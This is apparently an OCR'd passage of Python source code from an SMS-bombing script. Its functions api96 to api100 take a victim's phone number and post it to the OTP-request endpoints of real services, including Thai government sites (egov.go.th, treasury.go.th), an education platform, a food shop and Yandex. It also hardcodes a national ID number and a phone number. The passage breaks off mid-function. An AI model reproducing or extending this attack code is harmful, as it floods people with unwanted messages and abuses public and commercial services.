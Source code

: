              headers=header, json={"channelDetails": {"phoneNumber": f"+66{phone[1:]}", "channelType": "SMS"}, "source": "UNIFIED_LOGIN", "action": "OTP_LOGIN", "redirectTo": "/th-th/Women/Clothing"})

    def api96(phone):

        post("https://accounts.egov.go.th/Citizen/Account/MobileRegisterJson", headers=header,

             json={"Mobile": f"{phone}", "TransactionId": "f28ef0a2-23ff-4abd-b9e6-fdfc271298ea"})

    def api97(phone):

        post("https://tdhw.treasury.go.th/TD-Vote/api/otp/request",

             json={"ID_CARD": "1104200197909", "TEL": f"{phone}", "OTP_TYPE": "OTP_TEST"})

    def api98(phone):

        post("https://user-api.learn.co.th/authentication/sendOTP", json={"mobileNumber": phone}, headers={"user-agent": "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36", "Host": "user-api.learn.co.th", "content-length": "29", "sec-ch-ua-mobile": "?1",

             "content-type": "application/json;charset=UTF-8", "accept": "application/json, text/plain, /", "sec-ch-ua-platform": "Android", "origin": "https://user.learn.co.th", "sec-fetch-site": "same-site", "sec-fetch-mode": "cors", "sec-fetch-dest": "empty", "referer": "https://user.learn.co.th/", "x-api-key": "USER_API_KEY"})

    def api99(phone):

        post("https://www.fooddiaryonlineshop.com/RegisterNewCustomer", headers=header,

             data=f"__EVENTTARGET=&__EVENTARGUMENT=&__VIEWSTATE=Ble7%2FRYu%2F1RjtS%2FfO9KgKdBWKCntkuS%2F0x7Qh6w4mnY7kV82h741dj1JFc5xnFbW7yacbboe0%2B5nTVVF%2BFSGEHQvaTkL4HQ5qDJbZMBQEt73YZZ%2FZON2LWw193tcYCjDwL3y3vy3lks%2BduyUOCNMwlwNpfrPDsvbhgT4qDCekWgvnnFrzFGCtQYO6cTU3Lax6YpvUbBld0oKgkWcHg0efFp3K2S2fLx%2BK4oTVGr6bq1QdKl5uPHqtL04IHkdy7X6Wbf6lUTQgOa5q5wLfE2KUGHWUUsYjahMwHmRCaVSxB7P1eDmiZ%2BQNku9pHs7m50GtCSePXPSfYtFBumDCM2R1XklFOdYV4X1jJgt%2Fe3MGV1Xmj7cRE%2FsBk1u%2FMYfN%2BmXb5dxruqgDuhXAnWP%2F8Syot1XGEUtVclmfF5NIB0KkCu6He8dheN%2BhEkupLqzP6Ip6OAMNnvssm1rMngwDy7ipCNC3dPXMj83IpBuuD1LWbPr3x3ksf0%2FrGL4yM7jvr8a99ifPcJPcmJzY%2Feay0PKwdwA3u2KTyCoXVgMZwqvsdRoyRHlFooZ3AHoBNsQrkegtyk5eHtjpBTLHD1dzQT3R%2FRaYIbencMw%2B5BbVJWiPzVTXF%2BiQ9A64UcUP9adMciJa7TudfL331vSRd%2FwVMkA%2B1fDtVrfBBi8%2BHbta7BsuVjk0ZodiLMuloOsYaTSilSLmidUpEZFsj0Zhz%2FpwGu%2FGKMixcG95PmRkOdpAj4d2D8%3D&__VIEWSTATEGENERATOR=94756D41&ctl00%24MainContent%24PageGUIDForSession=&ctl00%24MainContent%24rdEmail=U&ctl00%24MainContent%24rdMobile=C&ctl00%24MainContent%24cbpEmptry%24txtMobileNo%24State=%7B%26quot%3BrawValue%26quot%3B%3A%26quot%3B{phone}%26quot%3B%2C%26quot%3BvalidationState%26quot%3B%3A%26quot%3B%26quot%3B%7D&ctl00%24MainContent%24cbpEmptry%24txtMobileNo=0958816629&ctl00%24MainContent%24cbpEmptry%24txtOTP%24State=%7B%26quot%3BrawValue%26quot%3B%3A%26quot%3B%26quot%3B%2C%26quot%3BvalidationState%26quot%3B%3A%26quot%3B%26quot%3B%7D&ctl00%24MainContent%24cbpEmptry%24txtOTP=&ctl00%24MainContent%24cbpEmptry%24chkRead=U&ctl00%24MainContent%24cbpEmptry%24chkConsent=U&DXScript=1_16%2C1_17%2C1_28%2C1_66%2C1_18%2C1_19%2C1_20%2C1_21%2C1_224%2C1_225%2C1_230%2C1_229%2C1_51%2C1_22%2C1_14%2C1_226%2C1_52&DXCss=1_248%2C1_69%2C1_71%2C1_250%2C1_247%2C1_75%2C1_74%2C1_251%2C%2FContent%2Fcss%3Fv%3DFILIkBdKK0FrNSvnRmezf5qTxic9NR7FOzzIJ8iQAKQ1%2Cfavicon.ico%2C..%2F..%2FContent%2Fbootstrap.min.css%2CStyles%2Fbutton.css&__CALLBACKID=ctl00%24MainContent%24cbpEmptry&__CALLBACKPARAM=c0%3ARequestOTP&__EVENTVALIDATION=N%2FlR5TtQKjdRNUQy0QFSjIjFW06D%2Fdy2VFm5Zl%2FTN%2FlsEYUsQVZwH8qpQ5sFzI0PBX2ZLH3HhxXkkZRvuada%2Bu6zsHxSgV3In38ahlf75%2Blm%2BguMSbwp%2FSxuo4Cc3cm5ZFVYYR9eVfvdwG4YsxWYbA%3D%3D")

    def api100(phone):

        post("https://passport.yandex.com/registration-validations/phone-confirm-code-submit", headers=header,
